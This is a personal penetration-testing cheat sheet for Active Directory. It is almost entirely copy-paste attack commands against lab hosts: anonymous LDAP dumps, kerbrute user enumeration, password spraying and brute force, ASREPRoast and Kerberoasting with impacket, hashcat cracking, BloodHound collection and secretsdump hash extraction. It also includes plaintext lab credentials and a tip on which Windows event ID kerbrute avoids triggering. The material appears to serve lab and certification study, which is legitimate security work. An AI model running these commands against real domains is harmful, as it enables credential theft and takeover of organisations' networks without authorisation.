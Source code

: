 ### Enumeration
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
```
Extract users:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName
ldapsearch -H 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

Extract all info under dn:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec"

Extract description:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description

Extract domain password policy:
ldapsearch -x -H ldap://INLANEFREIGHT.LOCAL  -D '' -w '' -b "DC=INLANEFREIGHT,DC=LOCAL" | grep -m 1 -B 10 pwdHistoryLength

Extract naming context:
ldapsearch -H ldap://192.168.151.122 -x -s base namingcontexts

Extract all info:
ldapsearch -H ldap://10.10.11.187 -x -s base

Nmap auto enum:
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials

enum4linux -a -v ip
```
### User enumeration
kerbrute uses Kerberos authentication to test credentials against the DC  
Using kerbrute = nxc ldap ip -u '' -p '' -k
```
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
This method doesn't generate Windows event ID 4625: An account failed to log on, but does generate event ID 4768: A Kerberos authentication ticket (TGT) was requested
```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
```
rpcclient -U "" -N 172.16.5.5
enumdomusers
```
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```
### PasswordSpray
```
./kerbrute_linux_amd64 passwordspray --dc 10.10.11.60 -d frizz.htb userlist "Welcome1!" -v
```
### Password Brute-force
```
./kerbrute bruteuser --dc 10.10.11.60 -d frizz.htb pass_file M.SchoolBus -v
```
### If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:
```
pip3 install ldapdomaindump 
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```
```
If you find something saying that the "bind must be completed" means that the credentials are incorrect.

You can extract everything from a domain using:

Copy
ldapsearch -x -H ldap://10.10.10.192 -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight'
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```
### Brute-force
```
nmap --script ldap-brute -p 389 <IP>
```
### ASREPRoast
>ASREPRoast is a security attack that exploits users who lack the Kerberos pre-authentication required attribute. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

ASREPRoast with username list without pass
```
impacket-GetNPUsers nara-security.com/ -dc-ip 192.168.209.30 -usersfile users.txt -format hashcat -outputfile hashes.txt
```
ASREPRoast with credential
```
impacket-GetNPUsers nagoya-industries.com/Fiona.clark:Summer2023 -dc-ip 192.168.183.21  -request -outputfile hashes.asreproast 

hashcat -m 18200 -a 0 passwords_kerb.txt hashes.asreproast
```
### Kerberos Roasting
```
impacket-GetUserSPNs -request -dc-ip 192.168.219.21 nagoya-industries.com/svc_helpdesk:U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```
> Error of Clock Skew too great
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal

sudo ntpdate -s domain
```
### Querying User Data
```
impacket-GetADUsers nagoya-industries.com/'':'' -user pass -dc-ip 192.168.219.21
```
### Domain Info 
```
bloodhound-python -ns 192.168.219.21 -d nagoya-industries.com -u 'Fiona.Clark' -p 'Summer2023' -c all
sudo proxychains4 -f /etc/proxychains4.conf bloodhound-python -ns 10.10.179.140 -d oscp.exam -u 'web_svc' -p 'Diamond1' -c all --dns-tcp
```
### DCSyn
```
impacket-secretsdump -sam SAM(local SAM file) -system SYSTEM(local SYSTEM file) local
impacket-secretsdump celia.almeda:7k8XHk3dMtmpnC7@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt
impacket-secretsdump celia.almeda@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt -hashes lm:nt

NTDS.DIT Secrets and Kerberos Key:
impacket-secretsdump 'htb.local'/'venom':'newP@ssword2022'@10.10.10.161
```
